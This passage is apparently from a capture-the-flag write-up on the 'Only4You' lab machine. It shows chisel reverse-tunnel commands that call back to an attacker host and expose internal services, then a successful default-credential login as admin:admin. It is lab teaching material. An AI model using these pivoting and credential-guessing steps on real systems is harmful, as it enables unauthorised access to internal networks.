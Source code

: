 Commands on attacking machine:

  •	``` ./chisel server -p 8888 --reverse ```
      
  •	``` ./chisel server -p 6666 --reverse ```

Commands on only4you.htb:

  •	``` ./chisel client attacking-ip:8888 R:8989:localhost:8001 ```

  •	``` ./chisel client attacking-ip:6666 R:6767:localhost:3000 ```

After this, I am able to interact with the applications graphically in my browser accessing localhost:8989 and localhost:6767.

![image](images/Only4You/Imagen18.png)

![image](images/Only4You/Imagen19.png)

Port 3000 app is Gogs, and port 8001 is a proprietary one called Only4You. Both of them have login pages and as with every login page found, usual default credentials are tested on both login pages. Surprisingly, “admin:admin” let me in on Only4You app (port 8001).

![image](images/Only4You/Imagen20.png)
